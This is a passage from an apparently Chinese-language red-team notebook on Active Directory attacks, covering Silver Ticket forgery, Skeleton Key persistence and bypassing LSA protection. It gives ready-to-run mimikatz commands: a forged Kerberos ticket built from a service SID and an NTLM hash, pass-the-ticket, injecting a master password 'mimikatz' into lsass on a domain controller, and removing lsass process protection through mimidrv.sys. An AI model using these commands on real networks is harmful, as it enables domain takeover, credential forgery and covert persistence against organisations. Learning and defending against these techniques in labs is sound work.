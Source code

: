 该票据同样需要3大条件：<br />1、目标服务的SID<br />2、目标服务的NTLM hash<br />3、目标服务的主机名<br />-------------------------------------------------------------------<br />win7域普通成员，无法访问域控<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626248050894-3cd97644-5db3-4bd2-ba26-fe20f3cb9ef4.png#height=143&id=O6sVw&originHeight=191&originWidth=705&originalType=binary&ratio=1&rotation=0&showTitle=false&size=15768&status=done&style=none&title=&width=529)
<a name="TFJ8R"></a>
#### 1、获取目标服务的信息
（在域控操作）获取域控本地管理员的ntml hash<br />这里其实也就是目标服务的hash<br />这里的NTLM作为rc4使用<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626248136665-555104b1-6c7c-41cb-aca2-8b48bfbbe7d7.png#height=398&id=nr7e1&originHeight=531&originWidth=697&originalType=binary&ratio=1&rotation=0&showTitle=false&size=40951&status=done&style=none&title=&width=523)<br />获取目标服务的SID<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626248273654-4fabd4a9-7276-48c6-bad3-72b1fa28a810.png#height=158&id=LEfMq&originHeight=158&originWidth=542&originalType=binary&ratio=1&rotation=0&showTitle=false&size=6077&status=done&style=none&title=&width=542)
<a name="4VgDr"></a>
#### 2、白银票据伪造
```
mimikatz.exe "kerberos::golden /user:AF /domain:aufeng.com /service:cifs /target:WIN-RQP1EWJL1WV.aufeng.com /sid:S-1-5-21-328449661-375435731-1527784320 /rc4:50b25636a69c1733822b47edf3384c45" exit
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626247772229-b6cf9831-2b89-40c6-b4a8-4933cda19f64.png#height=450&id=VPovl&originHeight=600&originWidth=822&originalType=binary&ratio=1&rotation=0&showTitle=false&size=72346&status=done&style=none&title=&width=617)<br />mimikatz.exe "kerberos::ptt ticket.kirbi" exit<br />dir成功访问目标服务(域控)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626248015014-dbe7bc02-7d32-48f5-9e5f-3215abeceff7.png#height=376&id=ASUdg&originHeight=501&originWidth=784&originalType=binary&ratio=1&rotation=0&showTitle=false&size=49781&status=done&style=none&title=&width=588)
<a name="gy5MW"></a>
## **Skeleton Key (域内统一密码 **mimikatz**) 权限维持**
> - 向域控制器注入Skeleton Key的方法，只能在64位操作系统中使用，包括Windows Server2012R2、Windows Server2012、Windows Server2008、Windows Server2008R2、Windows Server 2003R2、Windows Server 2003
> - 只有具有域管理员权限的用户可以将Skeleton Key注入域控制器的lsass.exe进程
> - Skeleton Key被注入后，用户使用现有的密码仍然可以登录系统
> - 因为Skeleton Key是被注入lsass.exe进程的，所以它只存在于内存中。如果域控制器重启，注入的Skeleton Key将会失效。


在域控上，使用mimikatz注入Skeleton Key，注入成功后。会在域内的所有账号中添加万能密码：mimikatz 。重启后会失效。

mimikatz.exe privilege::debug "misc::skeleton"<br />或者分开<br />privilege::debug<br />misc::skeleton<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611466990571-a733c534-f6ad-4c60-856e-4cd3cf91ad15.png#height=291&id=NPOex&originHeight=388&originWidth=527&originalType=binary&ratio=1&rotation=0&showTitle=false&size=56173&status=done&style=none&title=&width=395)<br />接下来RDP或者ipc啥的，我们就可以以域内任何用户，密码：mimikatz 登录。

<a name="uCYVa"></a>
### 绕过
如果碰到以下情况，还是可以进行绕过的<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611467151764-ab8218f4-b2ac-4f66-b2a3-00020681ff7c.png#height=158&id=uaLPk&originHeight=316&originWidth=775&originalType=binary&ratio=1&rotation=0&showTitle=false&size=156958&status=done&style=none&title=&width=387.5)<br />绕过lsa保护策略<br />mimikatz已经支持绕过lsa，该功能需要 mimidrv.sys 文件。<br />依次执行命令:
> privilege::debug
> !+
> !processprotect /process:lsass.exe /remove
> misc::skeleton

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611467217710-d15badb4-f784-405b-9da6-512c683c8c8b.png#height=332&id=Fr8qC&originHeight=442&originWidth=593&originalType=binary&ratio=1&rotation=0&showTitle=false&size=137341&status=done&style=none&title=&width=445)<br />然后就成功以mimikatz密码登陆了<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611467247403-28b13c72-1896-4d72-8e28-39c89ea00f03.png#height=200&id=tiHU9&originHeight=399&originWidth=790&originalType=binary&ratio=1&rotation=0&showTitle=false&size=155213&status=done&style=none&title=&width=395)
<a name="QhAx5"></a>
## MS14-068 （域内普通成员打域控）